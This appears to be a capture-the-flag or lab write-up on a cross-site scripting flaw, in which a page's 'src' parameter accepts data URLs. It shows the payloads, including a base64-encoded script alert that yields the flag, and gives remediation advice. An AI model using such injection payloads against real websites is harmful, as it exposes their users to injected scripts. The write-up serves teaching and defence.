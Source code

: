 # Cross Site Scripting (XSS) - Data URLs

In the first section of the home page, an image redirect to [the location](http://192.168.56.101/?page=media&src=nsa) where an `object` tag specifies the URL of NSA logotype, via `data` attribute.

The value of `data` attribute change accordingly the value GET parameter `src` in the URL.

Using special format, called [Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs), in `src` allow to embed small inline data in HTML document.

<details>
<summary>Embed a text file</summary>

```
data:text/html,<h1 style="font-size:75px; background-color:red">Hello World!</h1>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857428-9feaa61f-fc22-4b38-9168-dcad62fd70fa.png">
</details>

<details>
<summary>Embed an image</summary>

```
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGQAAABkCAYAAABw4pVUAAAAo0lEQVR42u3RAQ0AAAjDMO5fNCCDkG4SmupdZwoQIAICRECACAgQAQECBIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACAgQIEAEBIiAABGQ7w2x48edS3GF7AAAAABJRU5ErkJggg==
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207856826-f0abe6b6-e29e-4c57-bf88-ef8dcb737ca0.png">
</details>

<details>
<summary>Embed a scipt</summary>

```
data:text/html,<script>alert('42 - The answer to life, the universe and everything')</script>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857154-5443b8d2-b45c-4fc0-a0e6-6b828ffcab8a.png">

</details>


Passing the script encoded in `base64` and using appropriate syntax `data:[<mediatype>][;base64],<data>` gives the flag
```sh
┌──$ [~/42/2022/darkly]
└─>  echo -n "<script>alert('42 - The answer to life, the universe and everything')</script>" | base64
PHNjcmlwdD5hbGVydCgnNDIgLSBUaGUgYW5zd2VyIHRvIGxpZmUsIHRoZSB1bml2ZXJzZSBhbmQgZXZlcnl0aGluZycpPC9zY3JpcHQ+
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207858953-5b451dce-3444-407a-8dd4-f92fdb4ff12e.png">

## Remediation
- **Sanitize user input** checking for malicious code (for example using [DOMPurify](https://github.com/cure53/DOMPurify))
- **Escaping user input** from XSS to ensuring it’s secure before rendering it for the end user

***
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/
